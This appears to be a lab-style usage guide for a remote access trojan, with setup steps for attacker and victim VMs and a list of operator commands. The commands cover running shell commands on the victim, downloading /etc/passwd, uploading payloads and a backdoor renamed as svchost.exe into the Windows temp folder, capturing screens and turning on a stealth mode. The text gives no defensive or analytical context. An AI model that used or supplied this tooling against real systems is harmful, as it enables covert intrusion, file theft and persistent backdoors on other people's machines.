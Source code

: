 # Lab Setup Instructions:

On Attacker VM (C2 Server):


pip install pyautogui
python rat_client.py
On Victim VM:


python rat_server.py
Operation Guide:


# Execute command on victim
RAT> shell whoami

# Download file from victim
RAT> download /etc/passwd

# Upload malware to victim
RAT> upload ./payload.exe C:\\Windows\\Temp\\payload.exe

# Capture victim screen
RAT> screenshot

# Remove RAT from victim
RAT> kill

# Exit C2
RAT> exit

# List active sessions
RAT> sessions

# Switch to specific session
RAT> switch abc123

# Take screenshot with custom name
RAT> screenshot victim_desktop.jpg

# Upload with verification
RAT> upload backdoor.exe C:\\Windows\\Temp\\svchost.exe

# Enable stealth mode
RAT> stealth on

